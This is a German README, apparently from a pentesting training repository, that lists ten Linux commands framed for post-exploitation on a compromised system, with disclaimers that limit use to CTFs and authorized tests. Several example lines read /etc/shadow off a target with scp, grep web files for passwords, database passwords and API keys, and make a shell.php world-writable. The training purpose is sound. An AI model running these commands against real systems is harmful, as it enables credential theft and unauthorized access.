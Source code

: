 # 🧰 Top 10 Useful Linux Commands

**Zweck dieser Datei:**  
Diese Datei enthält eine kompakte Auswahl der nützlichsten Linux-Kommandos für Security-Analysten, Pentester, Systemadministratoren und CTF-Spieler. Sie helfen beim Navigieren, Analysieren und Kontrollieren eines kompromittierten oder fremden Systems – etwa nach erfolgreicher Exploitation oder während der Post-Exploitation-Phase.

> ⚠️ **Disclaimer:** Die hier beschriebenen Techniken und Kommandos sind ausschließlich für Schulungs- und Testzwecke gedacht – z. B. in CTF-Umgebungen oder autorisierten Penetrationstests. Der Missbrauch in realen, nicht autorisierten Systemen ist strafbar.



## Inhaltsverzeichnis
- [Die 10 wichtigsten Linux-Kommandos](#die-10-wichtigsten-linux-kommandos)
- [Weitere nützliche Kommandos](#weitere-nützliche-kommandos)
- [Quellen & Empfehlungen](#quellen--empfehlungen)
- [Haftungsausschluss](#haftungsausschluss)



## Die 10 wichtigsten Linux-Kommandos

### 1. `grep` – Textsuche in Dateien

```bash
grep 'root' /etc/passwd
grep -R 'password' /var/www/
```
➡️ Durchsuche Dateien nach bestimmten Strings, Passwörtern oder Konfigurationen.

### 2. find – Dateien nach Kriterien suchen

```bash
find / -type f -name "*.conf" 2>/dev/null
find / -perm -4000 2>/dev/null
```
➡️ Suche nach konfigurationsrelevanten Dateien oder SUID-Binaries.

### 3. awk – Text extrahieren, Spaltenweise analysieren

```bash
cat /etc/passwd | awk -F ':' '{print $1}'
```
➡️ Extrahiere Benutzernamen aus Systemdateien.

### 4. chmod – Berechtigungen ändern

```bash
chmod +x exploit.sh
chmod 777 shell.php
```
➡️ Setze ausführbare Rechte oder öffne Berechtigungen für Datei-Uploads.

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

### 5. scp – Dateien über SSH übertragen

```bash
scp localfile.txt user@host:/tmp/
scp root@target:/etc/shadow .
```
➡️ Ziehe Dateien vom oder auf das Zielsystem (Reverse Shells, Loot, etc.).

### 6. rsync – Synchronisiere Dateien oder ziehe ganze Verzeichnisse

```bash
rsync -avz /var/www/html user@host:/backup/
```
➡️ Ideal, um Dateien schnell und rekursiv zu sichern oder zu extrahieren.

### 7. tar – Packen und Entpacken von Archiven

```bash
tar -czf www.tar.gz /var/www
tar -xvf backup.tar
```
➡️ Packe komplette Webroots zur Analyse oder übertrage sie effizient.

### 8. netstat oder ss – Netzwerke analysieren

```bash
netstat -tuln
ss -tuln
```
➡️ Welche Dienste lauschen auf welchen Ports?

### 9. whoami, id, hostname, uname – Systeminformationen

```bash
whoami
id
uname -a
hostname
```
➡️ Ermittle User- und Systemkontext für Rechteeskalation.

### 10. ps, top, pstree – Prozesse beobachten

```bash
ps aux | grep apache
top
pstree
```
➡️ Finde laufende Prozesse oder potenzielle Schwachstellen in Services.

### Bonus: Praktische Kombinationen

```bash
find / -type f -name "*.php" 2>/dev/null | xargs grep -i 'db_password'
grep -r "api_key" /var/www/html
```
➡️ Kombiniere Tools für effiziente Enumeration und Looting.

 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Weitere nützliche Kommandos

| Kommando        | Zweck                                     |
| --------------- | ----------------------------------------- |
| `nc` / `netcat` | Shells, Port-Scan, einfache HTTP-Anfragen |
| `curl`          | Web-Anfragen über CLI                     |
| `wget`          | Dateien herunterladen                     |
| `ls -la`        | Berechtigungen und versteckte Dateien     |
| `crontab -l`    | Geplante Tasks analysieren                |




## Quellen & Empfehlungen
- [explainshell.com – Erklärt Bash-Befehle im Detail](https://explainshell.com/)
- [GTFOBins – Nützliche Binaries für Privilege Escalation](https://gtfobins.github.io/)
- [HackTricks Linux – Post-Exploitation Tipps](https://book.hacktricks.xyz/linux-hardening/)



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
